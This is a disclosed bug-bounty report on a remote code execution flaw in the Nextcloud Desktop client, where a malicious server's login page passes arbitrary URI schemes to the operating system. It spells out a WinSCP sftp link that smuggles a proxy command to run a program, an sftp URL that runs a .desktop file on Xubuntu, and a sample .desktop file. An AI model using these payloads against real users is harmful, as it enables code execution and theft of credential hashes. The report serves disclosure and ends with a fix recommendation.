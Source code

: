 # Nextcloud Desktop Client RCE via malicious URI schemes

## Report Details
- **Report ID**: 1078002
- **URL**: https://hackerone.com/reports/1078002
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-01-13T17:29:19.280Z
- **Disclosed**: 2021-04-15T09:17:05.240Z

## Reporter
- **Username**: 7a69
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
Nextcloud Desktop utilizes QT's `QDesktopServices::openUrl()` to open URLs. This function invokes the OS'/Desktop environment's default application to handling the URI scheme and file extension.

During the Nextcloud `Add Account` flow, the server's login website is opened within a native window/`WebView`. A malicious server can serve a login website containing links with arbitrary URI schemes. Clicking those links immediately invokes the OS' default application to handle the URI.

This can be exploited in various ways, depending on the OS and configuration, to e.g. gain arbitrary code execution:

## Exploitation on Windows

Many Windows developers and users in need of an scp/sftp/ftp/s3 client install 3rd party software, with WinSCP being the most common by far (2.1m downloads since 2020-11-20, >150m overall). Nextcloud Desktop Windows users that have WinSCP installed can be immediately exploited through the following link:
- `sftp://youtube:com;watch=sn96aVA2;x-proxymethod=5;x-proxytelnetcommand=calc.exe@foo.bar/`  (not shown to the user in the connection assistant window, even on hover)

A demo video is attached.
This utilizes "advanced" connection settings that are parsed by WinSCP when opening an sftp link. By specifying the "Local" proxy mode, an arbitrary command can be set, ran immediately even before the connection is established.

### Default config

Other abusable URI schemes are e.g. `file://` and `dav(s)://`. Those can leak NTLM hashes and, by referencing remote executables (.exe/.bat/.com/...) also lead to RCE on hosts that don't have WinSCP installed (with a confirmation needed to run the application).

## Exploitation on Linux (Xubuntu 20.04)

On Linux, the exact opening behavior and therefore exploitation strategy is dependent on the Desktop Environment and its configuration. As an example, serving the following URL allows to run arbitrary code on Xubuntu 20.04 in its default configuration:
- `sftp://nextclouduser@<server>/example.desktop`

A demo video is attached.
By specifying a username that is configured with an empty password on the server, this remote location is auto-mounted and the .desktop file (with executable-flag set) is opened with its default application, which will execute the specified command [1].
Please note: As seen in the video, if the client has never connected via SSH to the host before, the user is asked to accept the SSH host key. However, this prompt is perfectly embedded in the login flow (showing the same Nextcloud server address and the note that "this happens when you login for the first time").

Also, please note, that depending on the system configuration, also other URI schemes and file types can be used for exploitation, e.g. `smb://` for loading remote samba shares, and `.jar` files to run Java programs.

## Recommendation

Use a strict allowlist to filter all URLs before passing them to QDesktopServices::openURL(). 
For the login window, I think the responsible code is [here](https://github.com/nextcloud/desktop/blob/4b985ab3b322d18773c76e1d1afd6cbad3cdbba2/src/gui/wizard/webview.cpp#L226:L232). Only the "http://" and "https://" URI scheme should be allowed here.
All [QDesktopServices::openURL() calls](https://github.com/nextcloud/desktop/search?q=openURL) should be checked to verify that no unvalidated user/server input is be passed.


[1] .desktop file:
  [Desktop Entry]
  Exec=xmessage "Arbitrary RCE :)"
  Type=Application

## Impact

Arbitrary code execution and NTLM hash leak.

## Attachments
- nextcloud_rce_win.mp4
- nextcloud_rce_xubuntu.mp4
